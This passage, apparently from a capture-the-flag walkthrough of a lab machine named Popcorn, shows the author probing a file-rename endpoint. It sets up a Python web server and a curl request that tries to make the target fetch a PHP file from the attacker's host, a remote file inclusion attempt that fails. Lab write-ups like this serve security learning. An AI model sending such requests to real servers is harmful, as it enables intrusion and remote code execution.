 ![web3](./popcorn/web3.png)

Maybe there is an exploit for this? `/rename` has some more interesting output:

![web4](./popcorn/web4.png)

Maybe this is an LFI or RFI? Try an RFI:

```bash
# start a server to catch the request
sudo python3 -m http.server 80
# try to download the file
curl -s -G --data 'filename=http://10.10.14.27/test.php&newfilename=test.php' http://10.10.10.6/rename/index.php
```

But this returns the following error:

![web5](./popcorn/web5.png)
